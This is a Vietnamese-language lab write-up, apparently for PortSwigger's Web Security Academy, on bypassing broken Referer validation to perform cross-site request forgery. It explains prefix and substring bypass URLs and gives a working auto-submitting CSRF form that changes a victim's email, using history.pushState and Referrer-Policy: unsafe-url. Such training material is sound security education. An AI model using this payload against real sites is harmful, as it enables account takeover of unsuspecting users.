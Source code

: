 # Validation of Referer can be circumvented

Việc xác thực **Referer header** có thể bị bỏ qua nếu web app thực hiện kiểm tra một cách thiếu chặt chẽ. Dưới đây là giải thích chi tiết và ví dụ về cách tấn công này hoạt động:

**1. Trường hợp 1: Kiểm tra tiền tố (prefix) của domain**

**- Cách ứng dụng kiểm tra**: Web app chỉ xác nhận xem domain trong Referer header **bắt đầu bằng** một giá trị mong đợi (ví dụ: **vulnerable-website.com**).

**- Cách tấn công**: Kẻ tấn công có thể tạo một subdomain trên domain của họ, có tên bắt đầu bằng domain mục tiêu. Ví dụ:

*http://vulnerable-website.com.attacker-website.com/csrf-attack*

- Domain thực tế là *attacker-website.com*, nhưng subdomain *vulnerable-website.com* khiến ứng dụng nghĩ rằng Referer hợp lệ (vì nó bắt đầu bằng *vulnerable-website.com*).

**2. Trường hợp 2: Kiểm tra domain có xuất hiện ở bất kỳ đâu trong Referer**

**- Cách web app kiểm tra:** Web app chỉ xác nhận xem domain mục tiêu (ví dụ: *vulnerable-website.com*) **có tồn tại** trong *Referer header* không, bất kể vị trí.

**- Cách tấn công:** Kẻ tấn công đặt domain mục tiêu trong query string hoặc đường dẫn của URL độc hại. Ví dụ:

*http://attacker-website.com/csrf-attack?vulnerable-website.com*

- Referer header sẽ chứa *vulnerable-website.com* trong query string, khiến web app chấp nhận request.

**3. Vấn đề với trình duyệt hiện đại**

- **Cắt bỏ query string**: Nhiều trình duyệt (Chrome, Firefox...) tự động **xóa query string** khỏi Referer header để tránh rò rỉ thông tin nhạy cảm. Điều này có thể khiến kịch bản tấn công trên không hoạt động khi thử nghiệm trực tiếp trên trình duyệt.

- **Giải pháp cho kẻ tấn công**: Đặt header *Referrer-Policy: unsafe-url* trong response chứa mã khai thác. Header này buộc trình duyệt gửi toàn bộ URL (bao gồm cả query string) trong Referer header.

**Ví dụ thực tế:**

- **Bước 1**: Kẻ tấn công tạo trang web độc hại với URL:

    *http://attacker-website.com/csrf-attack?vulnerable-website.com*

- **Bước 2**: Trang web này chứa mã khai thác CSRF và thiết lập header:

    *Referrer-Policy: unsafe-url*

- **Bước 3**: Khi nạn nhân truy cập, trình duyệt gửi Referer đầy đủ:

    *Referer: http://attacker-website.com/csrf-attack?vulnerable-website.com*

- **Bước 4**: Ứng dụng kiểm tra thấy *vulnerable-website.com* trong Referer và cho phép request.

# Lab: CSRF with broken Referer validation
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image1.png?raw=true)

### Solution

Login với account được cấp wiener:peter: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image2.png?raw=true)

Change email: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image3.png?raw=true)

Trong Burp Suite, truy cập HTTP history trong tab Proxy và send change email request tới Repeater: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image4.png?raw=true)

Thử thay đổi giá trị của domain trong Referer header: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image5.png?raw=true)

Send Request này: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image6.png?raw=true)

--> Nhận được response thông báo Invalid referer header.

Thử xóa cả Referer header và Send Request: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image7.png?raw=true)

--> Vẫn nhận được thông báo Invalid referer header.

Lần này thử chỉnh sửa Referer header từ *https://0a2000a8033bf69f806226bc00c30061.web-security-academy.net/my-account?id=wiener* thành *https://0a2000a8033bf69f806226bc00c30061.web-security-academy.net*

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image8.png?raw=true)

--> Có thể đổi email --> kiểm tra Referer header không đúng cách.

Thử sửa thành *https://hacked-domain.com/?0a2000a8033bf69f806226bc00c30061.web-security-academy.net* để chỉnh sửa web app làm query param. 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image9.png?raw=true)

--> Vẫn đổi email thành công --> backend của web app vẫn chấp Referer header bị inject, thay vì xác thực chính xác toàn bộ Referer header, chỉ kiểm tra xem tên domain ở Host header có nằm trong Referer header hay không (bất kỳ vị trí nào). 

--> Cần tạo payload: 

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
        <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="Test@Test.com" />
        <input type="submit" value="Submit request" />
        </form>
        <script>document.forms[0].submit();</script>
    </body>
    </html>

*<script>history.pushState('', '', '/')</script>* Thực hiện thêm 1 mục vào session history stack. Có 3 tham số, tham số đầu tiên là *state object*, tham số thứ hai là *title* và tham số cuối cùng là *the url*. 

Chỉnh tham số thứ 3 thành lab-id, payload sẽ thành như sau: 

    <html>
        <!-- CSRF PoC - generated by Burp Suite Professional -->
        <body>
        <script>history.pushState('', '', '/?0a2c00e60353519981c7709a00c700e7.web-security-academy.net')</script>
            <form action="https://0a2c00e60353519981c7709a00c700e7.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="Test@Test.com" />
            <input type="submit" value="Submit request" />
            </form>
            <script>document.forms[0].submit();</script>
        </body>
        </html>

Go to exploit server và copy payload vào body: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image10.png?raw=true)

Store và View exploit. Nhận được thông báo Invalid referer header: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image11.png?raw=true)

Điều này là do nhiều trình duyệt hiện đại strip query string từ Referer header theo mặc định như là một biện pháp bảo mật. Để ghi đè hành vi này và đảm bảo rằng URL đầy đủ được bao gồm trong request, thêm header Referrer-Policy: unsafe-url vào phần Head: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image12.png?raw=true)

Sửa email trong payload, store và view exploit:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image13.png?raw=true)

--> Đổi được email. Tiếp tục thay đổi email, store và deliver exploit to victim:

Solved the lab!

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Cross-site%20request%20forgery%20(CSRF)/images/image14.png?raw=true)




